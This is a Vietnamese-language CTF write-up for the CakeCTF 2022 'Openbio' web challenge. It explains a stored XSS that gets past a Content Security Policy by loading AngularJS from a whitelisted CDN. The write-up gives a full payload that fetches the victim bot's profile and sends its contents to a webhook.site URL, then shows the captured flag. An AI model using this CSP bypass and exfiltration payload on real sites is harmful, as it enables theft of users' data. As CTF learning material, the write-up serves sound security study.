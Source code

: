# CakeCTF 2022: Openbio

**link**: http://web1.2022.cakectf.com:8003

Bài này nó cho source code nhưng mà thật ra mình không cần quan tâm lắm, bài này dạo qua tí thì mình sẽ biết nó là XSS thông qua trang profile. Vấn đề ở bài này là làm sao bypass được 2 thứ, CSP và HttpOnly cookie.

Trong source code cung cấp có file `crawler.js`, file này sẽ đóng vai trò làm bot đóng giả victim và truy cập vào link profile được report. Nó cũng sẽ reg một account random và set flag vào bio của account đó.

Lúc này trong đầu mình nghĩ rằng, thật ra không cần phải lấy cookie mà chỉ cần làm sao để lấy cái Flag nằm trong bio của con bot đó. 

Giờ đầu tiên, ta nhìn vào phần CSP của nó:

```
 default-src 'none';script-src 'nonce-avB8AzG9+I6GrLS1n/mO5g==' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';style-src https://cdn.jsdelivr.net/;frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;base-uri 'none';connect-src 'self';

```

Nó chặn việc thực thi inline script, src của style, script đều bị whitelist, ... bla bla. Và nó cho phép hàm `eval` (`unsafe-eval`)

Trong số các script src được whitelist, có url `https://cdn.jsdelivr.net/`, như anh em biết thì nó là cdn dùng để chứa các client-side script (js, css) và nó chứa các framework như angular, ....

Ta biết rằng angular có khá nhiều bug XSS trong các version cũ và cdn này cũng vẫn còn chứa các version đó (thật ra ngay ở version mới nhất cũng có thể lợi dụng được). Vậy, ta có thể include angular từ cdn trên và thực thi JS (trong angular việc thực thi JS bằng eval không nhất thiết cùng thẻ script)

```
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)
')()}}</div>
```

Oke rồi, ta đã XSS được. Giờ phải làm sao để lấy được flag, ý tưởng là gửi một request đến link profile bằng cookie của user hiện tại (con bot) rồi sau đó lấy text của response trả về, cho nó redirect đến webhook.

Full payload:

```
aaa</textarea><script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.js"></script> <div ng-app ng-csp>{{$eval.constructor('fetch("http://challenge:8080/",{mode:"no-cors"}).then(r => r.text()).then(t => window.location.href="https://webhook.site/49115582-167f-440b-98c4-b7b88aa57f96?c="+btoa(encodeURIComponent(t)))
')()}}</div>

```

Trước khi gửi thì ta encode URI và encode sang base64 để có thể truyền qua get param của webhook

![](https://i.imgur.com/IAPuyLZ.png)

![](https://i.imgur.com/mRQQG9b.png)

Flag: `CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}`
